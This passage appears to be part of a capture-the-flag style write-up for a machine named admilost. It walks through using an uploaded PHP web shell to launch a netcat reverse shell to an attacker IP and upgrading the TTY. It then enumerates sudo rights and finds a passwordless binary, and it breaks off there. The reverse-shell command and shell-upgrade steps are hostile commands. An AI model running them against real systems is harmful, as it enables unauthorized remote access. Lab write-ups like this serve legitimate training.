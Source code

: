 
```c
http://admilost.echocity-f.com/adm_my_files/announcements/images/20250531-061003_9rqlec91aaryzd6y.php
```

___

# Intrusion

We set up a listener on our attacking machine to receive a reverse connection.

```bash
nc -lvnp 4444
```

In the URL, we access with a parameter that triggers a Reverse Shell to our machine:

```
http://admilost.echocity-f.com/adm_my_files/announcements/images/20250531-061003_9rqlec91aaryzd6y.php?cmd=nc 10.10.6.42 4444 -e /bin/bash
```

This will establish a connection with our remote shell listening.

To improve interaction, we adjust the remote terminal:

```bash
script /dev/null -c bash
# Ctrl+Z to suspend
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=bash
```

___

# Privilege Enumeration and Escalation

We run `sudo -l` to see if there are any binaries that can be executed with sudo without a password.

```bash
Matching Defaults entries for www-data on admilost:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on admilost:

(ALL : ALL) NOPASSWD: /usr/local/bin/templater
```

Inside this file, there is a binary that can be exploited. We proceed to `cat` it to view its contents.
